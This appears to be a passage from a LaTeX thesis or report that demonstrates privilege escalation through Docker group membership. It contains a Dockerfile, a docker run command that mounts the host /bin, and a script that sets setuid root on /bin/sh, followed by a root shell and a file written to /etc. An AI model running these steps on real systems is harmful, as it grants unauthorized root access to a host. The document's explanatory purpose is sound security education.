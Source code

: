 This container's image is created with the following minimal Dockerfile:
\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for docgroup image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

COPY 2_attack_inside_the_container.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

And then start the container with the following commands:
\begin{lstlisting}[style=dockercommands]
$ docker build . -t docgroup
$ docker run --rm -it -v /bin/:/attack_bin docgroup
\end{lstlisting}

The script that is copied inside the container by the attacker is given below:
\begin{lstlisting}[style=shellscript, caption={2\_attack\_inside\_the\_container.sh}]
#!/bin/sh

chown root:root /attack_bin/sh
#chmod a+s: a:all users, +s:If someone else runs the file, they will run the file as the user/group who created it.
chmod a+s /attack_bin/sh
\end{lstlisting}

The attacker runs this script inside the container and then the container may be stopped. What this script does, is changing the ownership of sh file inside the bind mounted volume /attack\_bin and then modifying its permissions by adding the setuid permission for all users. The permission setuid means set user ID upon execution. Therefore, any user who execute /bin/sh on host will run it as its owner, who, in this case, is root. And that's exactly the next step of the attacker on host:

\begin{lstlisting}[style=terminal]
$ cd /bin
$ ./sh
\end{lstlisting}

And then runs the following commands inside the shell or commit any kind of attack he desires:
\begin{lstlisting}[style=terminal]
# whoami
root
# touch /etc/HelloFromTheOtherSide
\end{lstlisting}

If we check the permissions of the new file on host we can see that its owner is root:

\begin{lstlisting}[style=terminal]
$ ls -l /etc/ | grep Hello
-rw-rw-r-- 1 root root       0 Jan 19 20:52 %Hello%FromTheOtherSide
\end{lstlisting}

